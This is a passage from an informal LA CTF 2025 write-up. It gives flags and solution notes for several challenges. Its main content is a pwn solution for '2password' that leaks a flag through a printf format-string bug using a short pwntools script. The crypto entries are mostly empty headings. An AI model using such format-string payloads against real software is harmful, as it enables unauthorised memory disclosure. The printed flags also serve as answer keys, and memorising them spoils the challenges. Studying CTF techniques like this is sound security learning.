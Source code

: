 it is shuffled as half in even index others in odd index.  

`lactf{the_flag_got_lost_in_infinity}`

# PWN
## 2password
[chall](https://github.com/uclaacm/lactf-archive/tree/main/2025/pwn/2password)  
You have to set `username` to `kaiphat`, `password1` to `correct horse battery staple` and `password2` to flag.  

Using `checksec ./chall`, PIE activated so cannot overwrite return address..  
But `printf` using variable directlry, so FSB can be used.  

`password2` is saved on `rbp-0xa0` and `flag` is saved on `rsp`.  
As calling convention, arguments in `printf` format string calls `rsi` -> `rdx` -> `rcx` -> `r8` -> `r9` -> Stack.

---
```python
from pwn import *

e = process('./chall', env = {'LD_PRELOAD' : './libc.so.6'})
p = remote('chall.lac.tf', 31142)

# p.sendlineafter(b'username: ', b'kaiphait')
# p.sendlineafter(b'password1: ', b'correct horse battery staple')
# p.sendlineafter(b'password2: ', b'lactf{')

payload = b'%6$llx %7$llx %8$llx %9$llx %10$llx'

p.sendlineafter(b'username: ', payload)
p.sendlineafter(b'password1: ', b'AAAA')
p.sendlineafter(b'password2: ', b'BBBB')


p.interactive()
```
It prints flag by little endian  

`lactf{hunter2_cfc0xz68}`

# CRYPTO
## big e

## Extremely Convenient Breaker

## bigram-times
[chall](https://github.com/uclaacm/lactf-archive/tree/main/2025/crypto/bigram-times)  
It encrypt code with two letters from string.  
It has many case.  
After brute force and delete unavailable characters set.  
